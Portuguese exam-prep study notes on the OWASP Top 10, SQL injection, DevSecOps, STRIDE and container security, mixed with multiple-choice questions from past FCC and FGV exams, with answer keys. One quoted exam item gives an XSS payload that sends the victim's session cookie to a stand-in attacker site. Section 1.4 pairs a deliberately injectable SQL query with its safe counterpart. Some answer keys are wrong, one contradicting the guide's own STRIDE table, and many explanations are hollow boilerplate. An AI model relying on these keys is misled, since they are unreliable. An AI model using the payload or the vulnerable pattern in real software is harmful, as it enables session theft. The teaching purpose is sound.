




# 04 - Segurança em Aplicações, OWASP Top 10 e DevSecOps

> **Matéria:** Segurança da Informação  
> **Cargo:** B02 – Técnico de Controle Externo – Especialidade: Tecnologia da Informação  
> **Arquivo:** `04_seguranca_em_aplicacoes_owasp_top_10_e_devsecops.md`  


---


## 📌 Ementa / Itens do Edital
- Segurança no ciclo de vida de aplicações
- Projeto OWASP Top 10 (vulnerabilidades críticas em aplicações web)
- Boas práticas de codificação segura e abordagem DevSecOps (Shift-Left)
- Ferramentas de testes de segurança de software: SAST, DAST, IAST e SCA
- Segurança específica em APIs, em contêineres e em ambientes de nuvem

---

## 🧭 Sumário

1. [O Projeto OWASP Top 10 e Vulnerabilidades Críticas em Software Web](#1-o-projeto-owasp-top-10-e-vulnerabilidades-criticas-em-software-web)
    1. [Visão Geral e Categorias Oficiais do OWASP Top 10](#11-visao-geral-e-categorias-oficiais-do-owasp-top-10)
    2. [Broken Access Control (#1) e Insecure Direct Object References (IDOR)](#12-broken-access-control-1-e-insecure-direct-object-references-idor)
    3. [Cryptographic Failures (#2) e Proteção de Dados](#13-cryptographic-failures-2-e-protecao-de-dados)
    4. [Injection (#3): SQL Injection vs. Consultas Parametrizadas e Modalidades de XSS](#14-injection-3-sql-injection-vs-consultas-parametrizadas-e-modalidades-de-xss)
    5. [Demais Categorias Críticas: Insecure Design, Misconfiguration, SSRF e Supply Chain](#15-demais-categorias-criticas-insecure-design-misconfiguration-ssrf-e-supply-chain)
    6. [Teste 388](#Teste-388)
    7. [Teste 389](#Teste-389)
    8. [Teste 390](#Teste-390)
    9. [Teste 391](#Teste-391)
    10. [Teste 392](#Teste-392)
2. [Abordagem DevSecOps e a Cultura Shift-Left](#2-abordagem-devsecops-e-a-cultura-shift-left)
    1. [Princípios do DevSecOps e Economia da Correção Precoce (Shift-Left)](#21-principios-do-devsecops-e-economia-da-correcao-precoce-shift-left)
    2. [Modelagem de Ameaças com a Metodologia STRIDE](#22-modelagem-de-ameacas-com-a-metodologia-stride)
    3. [Ferramentas Automatizadas de Teste de Segurança (SAST, DAST, IAST, SCA)](#23-ferramentas-automatizadas-de-teste-de-seguranca-sast-dast-iast-sca)
    4. [Teste 393](#Teste-393)
    5. [Teste 394](#Teste-394)
    6. [Teste 395](#Teste-395)
3. [Segurança em APIs, Contêineres e Ambientes de Nuvem](#3-seguranca-em-apis-conteineres-e-ambientes-de-nuvem)
    1. [Segurança em APIs: OWASP API Security Top 10 e BOLA](#31-seguranca-em-apis-owasp-api-security-top-10-e-bola)
    2. [Boas Práticas e Hardening em Contêineres Docker e Kubernetes](#32-boas-praticas-e-hardening-em-conteineres-docker-e-kubernetes)
    3. [Segurança em Nuvem: Modelo de Responsabilidade Compartilhada e Proteção de Metadados](#33-seguranca-em-nuvem-modelo-de-responsabilidade-compartilhada-e-protecao-de-metadados)
    4. [Teste 396](#Teste-396)
    5. [Teste 397](#Teste-397)
    6. [Teste 398](#Teste-398)
6. [Fontes Recomendadas na Internet](#6-fontes-recomendadas-na-internet)

---

## 1. O Projeto OWASP Top 10 e Vulnerabilidades Críticas em Software Web

### 1.1 Visão Geral e Categorias Oficiais do OWASP Top 10

O *Open Web Application Security Project* (**OWASP**) é uma comunidade internacional sem fins lucrativos que lidera o consenso técnico global sobre a segurança no desenvolvimento de software. Seu principal documento de referência é o **OWASP Top 10**, uma publicação periódica que sintetiza as dez vulnerabilidades mais perigosas e frequentes em aplicações web em âmbito mundial.

| Posição | Categoria OWASP | Descrição do Risco | Exemplos Práticos / Vetores de Ataque | Mitigação Primária |
|---|---|---|---|---|
| **A01** | **Broken Access Control** *(#1 do Ranking)* | Falha na imposição de regras de autorização no backend, permitindo que usuários ajam fora dos limites de suas permissões. | **IDOR** (trocar `id=100` por `id=101` na URL para ver dado alheio); acesso direto a URLs administrativas sem autenticação; bypass de verificação de permissão. | *Deny by default*; validar autorização no lado do servidor em todas as requisições; tokens de sessão opacos. |
| **A02** | **Cryptographic Failures** *(antigo Sensitive Data Exposure)* | Falhas na proteção de dados sensíveis em repouso (*at rest*) ou em trânsito (*in transit*). | Uso de cifras obsoletas (MD5, DES, RC4); transmissão em HTTP sem TLS; chaves hardcoded no código; senhas salvas sem salt. | TLS 1.3 com HSTS obrigatório; AES-GCM para dados em repouso; hashing de senhas com algoritmos lentos (Argon2, bcrypt, PBKDF2). |
| **A03** | **Injection** | Dados não confiáveis fornecidos pelo usuário são interpretados como comandos ou instruções pelo interpretador. | **SQL Injection (SQLi)**; **Cross-Site Scripting (XSS)**; Command Injection (OS); LDAP/NoSQL Injection. | Consultas Parametrizadas (*Prepared Statements* com *bind variables*); ORMs; codificação sensível ao contexto (*context-aware encoding*); WAF. |
| **A04** | **Insecure Design** *(Categoria Nova)* | Falhas estruturais de concepção e arquitetura antes mesmo de o código ser escrito. | Ausência de modelagem de ameaças; regras de negócio sem limitação de taxa (ex.: compras infinitas com cupom); falta de design seguro. | Modelagem de ameaças (metodologia STRIDE); arquitetura de defesa em profundidade; princípios de *Secure by Design*. |
| **A05** | **Security Misconfiguration** | Configuração inadequada ou negligente dos componentes da pilha de software. | Contas e senhas padrão de fábrica mantidas; mensagens de erro detalhadas expondo *stack traces*; portas de depuração abertas; cabeçalhos de segurança ausentes. | Processo automatizado de *hardening*; desinstalação de utilitários desnecessários; desativação de mensagens detalhadas de erro para o cliente. |
| **A06** | **Vulnerable and Outdated Components** | Uso de bibliotecas, frameworks ou dependências de terceiros com falhas de segurança conhecidas. | Uso de versões antigas do Apache Log4j (falha *Log4Shell* - CVE-2021-44228); bibliotecas JavaScript com bugs públicos. | Análise de Composição de Software (SCA contínuo); monitoramento de boletins CVE/NVD; geração de SBOM (*Software Bill of Materials*). |
| **A07** | **Identification and Authentication Failures** | Falhas na verificação da identidade do usuário e gerenciamento de sessão. | Ausência de MFA; tolerância a senhas fracas; vulnerabilidade a *credential stuffing* e ataques de dicionário; sessões que não expiram após logout. | MFA obrigatório; bloqueio de contas após múltiplas tentativas falhas; controle de complexidade de senhas; cookies com flags `Secure`, `HttpOnly` e `SameSite`. |
| **A08** | **Software and Data Integrity Failures** *(Categoria Nova)* | Código ou infraestrutura que não protege contra violações de integridade em pipelines e dependências. | Desserialização insegura de objetos serializados não confiáveis (*Insecure Deserialization*); atualizações sem assinatura digital; contaminação de dependências (*supply chain*). | Assinatura digital em artefatos de build; verificação de integridade de dependências; evitar desserialização de formatos genéricos de dados não confiáveis. |
| **A09** | **Security Logging and Monitoring Failures** | Falha em registrar, monitorar e alertar tempestivamente sobre eventos suspeitos e incidentes. | Tentativas de login falhas não registradas; logs mantidos apenas localmente permitindo que o invasor os apague; ausência de integração com SIEM. | Centralização de logs imutáveis em SIEM; alertas automatizados em tempo quase real; retenção em conformidade com regulamentos. |
| **A10** | **Server-Side Request Forgery (SSRF)** | A aplicação web é induzida a realizar requisições HTTP arbitrárias a um destino fornecido pelo usuário. | O servidor vulnerável faz requisição contra serviços de metadados em nuvem (`http://169.254.169.254`) ou sistemas internos atrás do firewall. | Validação estrita de URLs de destino; lista permitida (*allowlist*) de domínios; isolamento de rede do servidor de aplicação. |

### 1.2 Broken Access Control (#1) e Insecure Direct Object References (IDOR)

Na edição atual do OWASP Top 10, **Broken Access Control assumiu a 1ª posição absoluta**, sendo identificada em 94% das aplicações testadas.

Essa falha ocorre quando a aplicação não valida no lado do servidor se o usuário autenticado possui os privilégios necessários para executar determinada ação ou acessar determinado recurso.

#### O Caso Clássico do IDOR (*Insecure Direct Object References*):
Ocorre quando a aplicação expõe diretamente um identificador de banco de dados na URL ou no corpo da requisição:

```text
https://tribunal.gov.br/api/processo?id=1050
```

Se o usuário simplesmente alterar o valor na barra de endereços para `id=1051` e o sistema exibir o processo sigiloso de outro cidadão, configura-se um **IDOR**, espécie notória de *Broken Access Control*.

- **Mitigação Mandatória:** O servidor deve SEMPRE verificar na camada de aplicação:  
  *O `usuario_autenticado` é o proprietário legítimo ou possui autorização formal no RBAC/ABAC para acessar o recurso `id=1051`?* Se não, a requisição deve ser bloqueada com código HTTP `403 Forbidden`.

### 1.3 Cryptographic Failures (#2) e Proteção de Dados

Anteriormente denominada *Sensitive Data Exposure*, essa categoria concentra-se em deficiências relacionadas ao uso incorreto ou à ausência de criptografia:

- **Dados em Trânsito:** Omissão do protocolo HTTPS/TLS 1.3, tráfego de dados sensíveis (senhas, CPF, informações de saúde) em texto puro HTTP, ausência do cabeçalho HSTS (*HTTP Strict Transport Security*).
- **Dados em Repouso:** Armazenamento de dados críticos em bases de dados sem criptografia de ponta a ponta (AES-256-GCM); armazenamento de senhas com funções hash rápidas e vulneráveis (MD5, SHA-1) ou sem a devida adição de valor aleatório de *salt* individualizado.
- **Mitigação:** Emprego obrigatório de cifras simétricas robustas com modos autenticados (AES-GCM), protocolos seguros de transporte e funções de derivação de chaves projetadas especificamente para senhas com custo de processamento ajustável (Argon2, bcrypt, PBKDF2).

### 1.4 Injection (#3): SQL Injection vs. Consultas Parametrizadas e Modalidades de XSS

A **Injeção (A03)** ocorre quando dados fornecidos por fontes externas não confiáveis são concatenados diretamente a interpretadores de comandos ou linguagens de consulta.

#### Injeção de SQL (SQLi)
Ocorre quando comandos SQL são montados via interpolação ou concatenação direta de strings:



- **Código Vulnerável:**

```python
# O atacante altera a árvore de execução sintática do SQL
query = f"SELECT * FROM servidores WHERE cpf = '{cpf_input}'"
cursor.execute(query)
```

- **Código Seguro (Prepared Statements com Parâmetros Vinculados):**

```python
# O motor do banco de dados trata a entrada estritamente como dado literal puro
query = "SELECT * FROM servidores WHERE cpf = %s"
cursor.execute(query, (cpf_input,))
```

> 🚨 **ALERTA DE PROVA / PEGADINHA FCC:**  
> A FCC adora afirmar que funções de substituição manual de caracteres (como trocar aspas por barras) são a solução ideal para injeção de SQL. **ERRADO!** Filtros manuais baseados em listas de bloqueio (*denylists*) são historicamente burláveis por diversas técnicas de codificação. A **única defesa definitiva e prioritária recomendada pela OWASP são as Consultas Parametrizadas (*Prepared Statements* com parâmetros vinculados / *bind variables*)**.

### 1.5 Demais Categorias Críticas: Insecure Design, Misconfiguration, SSRF e Supply Chain

- **A04: Insecure Design (Design Inseguro):** Categoria nova que diferencia falhas de implementação (bugs de código) de **falhas de concepção e arquitetura**. Se o sistema de compras do órgão não possui uma regra arquitetural de limitação de compras por minuto, o código pode estar perfeitamente escrito e livre de falhas de injeção, mas o design é vulnerável a abusos lógicos de negócio.
- **A05: Security Misconfiguration (Configuração Incorreta de Segurança):** Envolve a manutenção de contas, logins e senhas padrão de fábrica em bancos de dados e servidores web; mensagens de erro detalhadas expondo *stack traces* e versões internas de bibliotecas aos usuários finais; portas de depuração abertas em produção e falta de políticas de segurança HTTP (*Content-Security-Policy*).
- **A08: Software and Data Integrity Failures:** Foco na segurança da cadeia de suprimentos (*supply chain*). Envolve a ingestão de dependências e pacotes sem verificação de assinatura digital e a **desserialização insegura (*Insecure Deserialization*)**, onde objetos serializados em XML, JSON ou binários recebidos de usuários remotos são recriados na memória sem validação, viabilizando execução remota de código (RCE).
- **A10: Server-Side Request Forgery (SSRF):** Ocorre quando um atacante consegue induzir o servidor de aplicação a disparar requisições HTTP arbitrárias para recursos internos protegidos pela rede interna. Em ambientes de nuvem pública, o vetor mais crítico de SSRF é forçar o servidor a ler a URL local de metadados (`http://169.254.169.254/latest/meta-data/`), expondo tokens temporários de credenciais administrativas da máquina virtual.

---

### Teste 388
**(FGV – TRF-1 – Analista Judiciário - Tecnologia da Informação – 2024)**
O analista Carl os está configurando o modo rootless do Docker 
em um servidor Linux. Carlos sabe que, para operar no modo 
rootless, o Docker exige a presença de determinados utilitários 
do sistema operacional que possibilitam o uso de múltiplos 
identificadores de usuário e de grupo no namespace de um 
usuário. 
Logo, antes de configurar o modo rootless do Docker no servidor 
Linux, Carlos verificou a presença dos utilitários:

* **A)** subuid e subgid;
* **B)** subuid e newgidmap;
* **C)** newuidmap e subgid;
* **D)** newuidmap e subuid;
* **E)** newuidmap e newgidmap.

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **B)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **C)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **D)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **E)** Correta. Representa com precisão a disciplina do tema e o entendimento pacificado adotado pela banca (FGV).
>
> **Gabarito: E**

---
### Teste 389
**(FGV – TRT-13 – Analista Judiciário (TI) – 2022)**  
De acordo com o OWASP, uma aplicação web fica vulnerável a ataques de Injeção quando

* **A)** ocorre uso intenso de expressões regulares em operações de validação dados.
* **B)** se impõe o menor nível de privilégio para aplicação conect ar a bancos de dados ou outros sistemas de suporte.
* **C)** ferramentas de mapeamento objeto -relacional são adotadas para reduzir a impedância da programação.
* **D)** se utiliza a cláusula LIMIT para especificar o número de linhas que devem ser retornadas no resultado de uma consulta SQL.
* **E)** consultas SQL são concatenadas diretamente com os dados fornecidos pelos usuários por meio de formulários web.

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. O uso inadequado de regex pode provocar ataques de ReDoS (Denial of Service por Regex), mas não constitui a vulnerabilidade de injeção descrita pelo OWASP.
> - **B)** Incorreta. O princípio do menor privilégio (least privilege) é uma medida preventiva essencial de mitigação.
> - **C)** Incorreta. Ferramentas ORM (como Hibernate ou Entity Framework) auxiliam na prevenção de SQL Injection, pois utilizam consultas parametrizadas internamente.
> - **D)** Incorreta. A cláusula LIMIT apenas restringe a cardinalidade de linhas resultantes no SGBD.
> - **E)** Correta. Segundo o OWASP (Top 10 - A03: Injection), as falhas de injeção ocorrem quando dados fornecidos pelo usuário não são validados, filtrados ou parametrizados pela aplicação, sendo concatenados diretamente em comandos ou consultas interpretadas (como queries SQL), permitindo ao invasor alterar a lógica pretendida do comando.
>
> **Gabarito: E**

---

### Teste 390
**(FGV – TJ-AP – Analista Judiciário (TI) – 2023)**  
A equipe de Segurança da Informação (SI) de um órgão público realizou varreduras de vulnerabilidades em seus ativos a fim de reduzir a exposição dos sistemas aos riscos. Durante a varredura, a equipe de SI identi ficou que um dos sistemas tinha uma vulnerabilidade que permitia a inserção de scripts maliciosos na aplicação, alterando o conteúdo dinâmico que o usuário recebia em seu navegador, redirecionando-o para um site falso. A vulnerabilidade identificada permitia um ataque de:

* **A)** backdoor;
* **B)** rootkit;
* **C)** session hijacking;
* **D)** cross-site scripting;
* **E)** SQL injection. Tribunal de Justiça do Estado do Amapá FGV Conhecimento Analista Jud - Apo Esp - Tecnologia da Informação - Segurança da Informação  Tipo 1 ̶ Branca – Página 14

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. Backdoors são portas dos fundos deixadas deliberadamente em sistemas para garantir persistência de acesso.
> - **B)** Incorreta. Rootkits são conjuntos de ferramentas maliciosas que operam em nível de núcleo/privilégio para ocultar processos invasores.
> - **C)** Incorreta. O sequestro de sessão (session hijacking) pode decorrer de roubo de cookies via XSS, mas a falha descrita no enunciado (inserção de scripts na aplicação alterando conteúdo dinâmico) é o XSS em si.
> - **D)** Correta. O ataque de Cross-Site Scripting (XSS) consiste na inserção de scripts executáveis (como JavaScript malicioso) em páginas web dinâmicas. Ao ser renderizado no navegador da vítima, o script executa no contexto de segurança da sessão do usuário, permitindo desvio de tráfego, captura de credenciais ou roubo de cookies.
> - **E)** Incorreta. SQL Injection atinge a camada de banco de dados no back-end, e não a injeção de scripts executados no navegador cliente.
>
> **Gabarito: D**

---

### Teste 391
**(FCC – TRT-24 – Analista Judiciário (TI) – 2017)**  
Considere um cenário em que uma aplicação utiliza dados não confiáveis na construção do seguinte fragmento HTML sem vali-

dação ou filtro:

(String) page += "<input name='num_cartao_credito' type='TEXT' value='" +

request.getParameter("credit_card") + "'>";

Considere, ainda, que um atacante modifica o parâmetro 'credit_card' em seu navegador para:

'><script>document.location= 'http://www.atacante.com/cgi-bin/cookie.cgi?

foo='+document.cookie</script>'

Isso causa o envio do ID de sessão da vítima para o  site do atacante, permitindo que sequestre a sessão atual do usuário.

Este é um cenário de ataque do tipo

* **A)** Script-Fake Injection.
* **B)** Session Persistent Hijacking.
* **C)** Cross-Site Scripting.
* **D)** Buffer Overflow.
* **E)** Advanced Persistent Threat.

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. Nomenclatura fictícia não reconhecida pela literatura e pelo OWASP.
> - **B)** Incorreta. Nomenclatura imprecisa que não designa o padrão de injeção em código HTML.
> - **C)** Correta. O código apresentado concatena a entrada de formulário `request.getParameter('credit_card')` diretamente na construção da tag HTML `<input>` sem sanitização ou encoding. Ao injetar `'><script>document.location='http://atacante...cookie=' + document.cookie</script>`, o atacante fecha o atributo e a tag input, forçando o navegador a executar o script malicioso e transmitir o cookie de sessão para o servidor atacante, caracterizando tipicamente um ataque de Cross-Site Scripting (XSS).
> - **D)** Incorreta. Buffer overflow ocorre quando dados ultrapassam a capacidade de alocação de memória física em linguagens de baixo nível (C/C++).
> - **E)** Incorreta. APT refere-se a campanhas de espionagem cibernética persistente por grupos organizados.
>
> **Gabarito: C**

---

### Teste 392
**(FGV – TRF-1 – Analista Judiciário - Tecnologia da Informação – 2024)**
Fabrício, delegado de polícia, solicitou a intervenção de um 
especialista em informática para investigar um incidente ocorrido 
em uma empresa, no qual João, um ex -funcionário, acessou 
indevidamente o siste ma da empresa, que continha dados 
confidenciais. Durante essa invasão, João procedeu à modificação 
dos preços dos produtos, reduzindo-os a valores insignificantes, e 
distribuiu essas informações para milhares de indivíduos, 
ocasionando uma interrupção temp orária no funcionamento do 
sistema. 
Após uma minuciosa análise da situação, o perito elaborou um 
relatório abrangente para o delegado Fabrício, no qual apontou 
os objetivos fundamentais de segurança que foram violados. 
A alternativa que lista os objetivos fundamentais de segurança 
que foram violados, na ordem em que as respectivas violações 
aparecem no texto acima, é:

* **A)** não repúdio, integridade e disponibilidade;
* **B)** disponibilidade, integridade e confidencialidade;
* **C)** confidencialidade, Integridade e disponibilidade;
* **D)** não repúdio, disponibilidade e confidencialidade;
* **E)** confidencialidade, disponibilidade e não repúdio.

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **B)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **C)** Correta. Representa com precisão a disciplina do tema e o entendimento pacificado adotado pela banca (FGV).
> - **D)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **E)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
>
> **Gabarito: C**

---
## 2. Abordagem DevSecOps e a Cultura Shift-Left

### 2.1 Princípios do DevSecOps e Economia da Correção Precoce (Shift-Left)

No modelo tradicional em cascata ou nas primeiras iterações do modelo DevOps, a segurança da informação atuava como um comitê de auditoria tardio e isolado, acionado somente no encerramento do projeto, imediatamente antes do deploy em produção. Esse modelo de "porteira de segurança" gerava atrito constante, retrabalho massivo e atrasos nas entregas.

A filosofia **DevSecOps** une as áreas de Desenvolvimento (**Dev**), Segurança (**Sec**) e Operações de Infraestrutura (**Ops**), transformando a segurança cibernética em uma responsabilidade intrínseca e compartilhada por todos os profissionais da equipe ao longo de todo o ciclo de vida do software.



#### O Conceito de *Shift-Left* (Deslocar para a Esquerda)
Na linha cronológica da esteira de entrega contínua (CI/CD), a extremidade esquerda representa o planejamento e a codificação, enquanto a direita representa o deploy e a operação em produção.

**Deslocar a segurança para a esquerda (*Shift-Left*)** significa introduzir verificações e controles de segurança o mais cedo possível:

- Identificar e corrigir uma falha arquitetural ou de código durante a modelagem de ameaças ou na digitação na IDE é **dezenas de vezes mais barato** e rápido do que corrigir a mesma falha após a aplicação ter sido implantada em ambiente produtivo.

### 2.2 Modelagem de Ameaças com a Metodologia STRIDE

Criada por pesquisadores da Microsoft, a metodologia **STRIDE** é uma estrutura conceitual de modelagem de ameaças adotada no planejamento de sistemas para identificar potenciais riscos antes de qualquer linha de código ser produzida:



| Categoria STRIDE | Significado da Ameaça | Propriedade de Segurança Violada |
|---|---|---|
| **S**poofing | Falsificar a identidade de um usuário, processo ou componente legítimo. | **Autenticidade** |
| **T**ampering | Modificar ou corromper dados em trânsito, em memória ou em repouso. | **Integridade** |
| **R**epudiation | Negar formalmente a autoria de uma operação ou transação realizada. | **Não Repúdio** |
| **I**nformation Disclosure | Divulgar dados sigilosos a pessoas ou sistemas não autorizados. | **Confidencialidade** |
| **D**enial of Service | Esgotar recursos de rede, CPU ou memória para degradar ou derrubar o sistema. | **Disponibilidade** |
| **E**levation of Privilege | Obter privilégios superiores àqueles originalmente atribuídos à conta. | **Autorização** |

### 2.3 Ferramentas Automatizadas de Teste de Segurança (SAST, DAST, IAST, SCA)

A automação do pipeline de CI/CD integra quatro famílias primárias de ferramentas de testes de segurança de software:

| Categoria | Nome Completo | Tipo de Teste | Momento da Execução | O que inspeciona? | Principais Prós e Contras |
|---|---|---|---|---|---|
| **SAST** | *Static Application Security Testing* | Caixa-Branca (*White-Box*) | No início do pipeline (fase de commit/build), **sem executar o código**. | Código-fonte, sintaxe, árvores de sintaxe abstrata (AST) e bytecode interno da aplicação. | **Pró:** Aponta a linha exata e o arquivo com a falha.<br>**Contra:** Gera elevado índice de falsos positivos; não detecta falhas de infraestrutura ou erros de runtime. |
| **DAST** | *Dynamic Application Security Testing* | Caixa-Preta (*Black-Box*) | No final do pipeline (staging/deploy), **com a aplicação rodando em servidor**. | Comportamento externo da aplicação web através de requisições HTTP simuladas. | **Pró:** Agnóstico de linguagem; testa configurações reais de ambiente de execução.<br>**Contra:** Não aponta a linha do código; não tem visibilidade da lógica interna. |
| **SCA** | *Software Composition Analysis* | Caixa-Branca / Inventário | Durante o build através de arquivos de manifesto (`package.json`, `pom.xml`, `requirements.txt`). | Dependências de código aberto, bibliotecas de terceiros e frameworks. | **Pró:** Mapeia vulnerabilidades públicas catalogadas (CVEs) e analisa riscos de conformidade de licenças legais de software livre. |
| **IAST** | *Interactive Application Security Testing* | Híbrido Instrumentado | Durante a execução de testes funcionais automatizados ou manuais em runtime. | Agente instalado dentro da máquina virtual da aplicação (JVM, .NET, Node.js). | **Pró:** Combina a precisão do SAST com a visão contextual do DAST, com baixíssimo índice de falsos positivos.<br>**Contra:** Requer instrumentação específica e consome recursos da aplicação em teste. |

---

### Teste 393
**(FCC – TRT-23 – Analista Judiciário - Tecnologia da Informação – 2016)**
Em um site que utiliza JSF, um Analista está criando um pequeno formulário para entrada do nome do usuário e da senha de 
acesso a uma área restrita. O nome do usuário poderá ficar legível, porém, a senha não. Os elementos JSF que deverão ser 
utilizados para criar o campo nome do usuário e senha são, respectivamente,

* **A)** <h:inputText/> e <h:inputSecret/>
* **B)** <form:inputText/> e <form:inputPassword/>
* **C)** <html:inputField/> e <html:inputHidden/>
* **D)** <h:inputTextarea> e <h:inputPassword/>
* **E)** <h:inputField> e <h:inputHidden/>

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **B)** Correta. Representa com precisão a disciplina do tema e o entendimento pacificado adotado pela banca (FCC).
> - **C)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **D)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **E)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
>
> **Gabarito: B**

---
### Teste 394
**(FGV – TJ-AP – Analista Judiciário - Segurança da Informação – 2023)**
A empresa Z criou uma nova aplicação web, mas foi atacada após 
disponibilizá-la na Internet. A equipe de segurança da empresa Z 
identificou que a configuração do servidor de aplicações permitia 
que os detalhes das mensagens de erro fossem retornados aos 
usuários. Tal fato exibe informações confidenciais ou falhas 
subjacentes. Para a ela boração do relatório de ataque a ser 
entregue à empresa Z, a equipe de segurança usou o OWASP.  
Ao verificar o OWASP, a equipe definiu o ataque como 
pertencente à categoria:

* **A)** A09:2021 – Falhas de Registro e Monitoramento de 
Segurança;
* **B)** A08:2021 – Falhas de Software e Integridade de Dados;
* **C)** A07:2021 – Falhas de Identificação e Autenticação;
* **D)** A06:2021 – Componentes Vulneráveis e Desatualizados;
* **E)** A05:2021 – Configuração Incorreta de Segurança.

---

> **Comentário Detalhado:**
>
> - **A)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **B)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **C)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **D)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **E)** Correta. Representa com precisão a disciplina do tema e o entendimento pacificado adotado pela banca (FGV).
>
> **Gabarito: E**

---
### Teste 395
**(FGV – TJ-AP – Analista Judiciário - Segurança da Informação – 2023)**
Gilberto trabalha no setor de segurança do Tribunal de Justiça do 
Amapá (TJAP) e está fazendo a modelagem de possíveis ameaças 
aos seus sistemas, aplicativos, redes e serviços. Após pesquisar 
alguns modelos, decidiu realizar a modelagem seguindo o STRIDE 
(Spoofing, Tampering, Repudiation, Information disclosure, 
Denial of service, Elevation of privilege). O modelo relaciona as 
ameaças do acrônimo STRIDE com as propriedades de segurança. 
Inicialmente, Gilberto trabalhará na propriedade de integridade.  
Logo, dentro do acrônimo STRIDE, a ameaça a ser trabalhada por 
Gilberto será:

* **A)** spoofing;
* **B)** tampering;
* **C)** repudiation;
* **D)** information disclosure;
* **E)** denial of service.

---

> **Comentário Detalhado:**
>
> - **A)** Correta. Representa com precisão a disciplina do tema e o entendimento pacificado adotado pela banca (FGV).
> - **B)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **C)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **D)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
> - **E)** Incorreta. Discrepa das diretrizes normativas e jurisprudenciais aplicáveis ao tema objeto do item.
>
> **Gabarito: A**

---
## 3. Segurança em APIs, Contêineres e Ambientes de Nuvem

### 3.1 Segurança em APIs: OWASP API Security Top 10 e BOLA

Diferente das aplicações web tradicionais baseadas em renderização no servidor, as interfaces modernas expõem diretamente APIs REST/GraphQL para clientes móveis e frontends em JavaScript. Para esse ecossistema, o projeto formulou o **OWASP API Security Top 10**, destacando:

- **BOLA (*Broken Object Level Authorization* - Vulnerabilidade #1 de APIs):** Equivalente ao IDOR em APIs. A rota recebe o ID do recurso no endpoint (`/api/v1/contratos/{id}`) e o backend retorna os dados sem verificar se o token de autorização do solicitante permite acessar aquele ID em particular.
- **Mass Assignment (Atribuição em Massa):** A API aceita o JSON enviado pelo cliente e o vincula diretamente a objetos de banco de dados internos. O atacante envia campos adicionais no payload (ex.: `"is_admin": true` ou `"saldo": 999999`), e o backend salva os valores sem filtragem.
- **Falta de Limitação de Recursos e Taxa (*Lack of Resources & Rate Limiting*):** Ausência de limites de requisições por segundo ou tamanho de payload, permitindo ataques de exaustão de memória e CPU.
- **API Gateways:** Componentes perimetrais que centralizam a autenticação, aplicam *rate limiting* e efetuam a validação estrita de esquemas de dados (OpenAPI Specification / JSON Schema) antes de encaminhar o tráfego aos microsserviços internos.

### 3.2 Boas Práticas e Hardening em Contêineres Docker e Kubernetes

A execução de microsserviços em contêineres exige práticas rigorosas de isolamento para evitar fugas para o sistema hospedeiro (*container breakout*):

1. **Não Executar Contêineres como `root`:** Por padrão, o processo dentro de um contêiner Docker roda como usuário com UID 0 (`root`). É mandatória a especificação de um usuário comum sem privilégios no `Dockerfile`:

```dockerfile
USER 10001:10001
```

2. **Utilizar Imagens Mínimas (*Distroless* ou *Alpine*):** Imagens base compactas eliminam utilitários desnecessários do sistema operacional (como gerenciadores de pacotes `apt`/`apk`, interpretadores `bash` e ferramentas de rede `curl`), reduzindo drasticamente a superfície de ataque e o número de CVEs presentes na imagem.
